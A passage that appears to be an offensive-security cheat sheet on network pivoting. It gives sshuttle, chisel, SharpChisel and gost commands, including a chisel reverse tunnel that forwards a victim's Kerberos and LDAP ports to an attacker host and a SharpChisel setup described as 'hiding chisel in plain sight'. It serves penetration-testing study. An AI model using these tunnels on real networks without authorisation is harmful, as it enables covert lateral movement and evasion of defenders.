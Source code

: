 ```powershell
pacman -Sy sshuttle
apt-get install sshuttle
sshuttle -vvr user@10.10.10.10 10.1.1.0/24
sshuttle -vvr username@pivot_host 10.2.2.0/24

# using a private key
$ sshuttle -vvr root@10.10.10.10 10.1.1.0/24 -e "ssh -i ~/.ssh/id_rsa"

# -x == exclude some network to not transmit over the tunnel
# -x x.x.x.x.x/24
```

## chisel

```powershell
go get -v github.com/jpillora/chisel

# forward port 389 and 88 to hacker computer
user@victim$ .\chisel.exe client YOUR_IP:8008 R:88:127.0.0.1:88 R:389:localhost:389
user@hacker$ /opt/chisel/chisel server -p 8008 --reverse
```

### SharpChisel

A C# Wrapper of Chisel : <https://github.com/shantanu561993/SharpChisel>

```powershell
user@hacker$ ./chisel server -p 8080 --key "private" --auth "user:pass" --reverse --proxy "https://www.google.com"
================================================================
server : run the Server Component of chisel
-p 8080 : run server on port 8080
--key "private": use "private" string to seed the generation of a ECDSA public and private key pair
--auth "user:pass" : Creds required to connect to the server
--reverse:  Allow clients to specify reverse port forwarding remotes in addition to normal remotes.
--proxy https://www.google.com : Specifies another HTTP server to proxy requests to when chisel receives a normal HTTP request. Useful for hiding chisel in plain sight.

user@victim$ SharpChisel.exe client --auth user:pass https://redacted.cloudfront.net R:1080:socks
```

## Gost

> Wiki English : <https://docs.ginuerzh.xyz/gost/en/>

```powershell
git clone https://github.com/ginuerzh/gost
cd gost/cmd/gost
go build

# Socks5 Proxy
Server side: gost -L=socks5://:1080
Client side: gost -L=:8080 -F=socks5://server_ip:1080?notls=true

# Local Port Forward
gost -L=tcp://:2222/192.168.1.1:22 [-F=..]
```
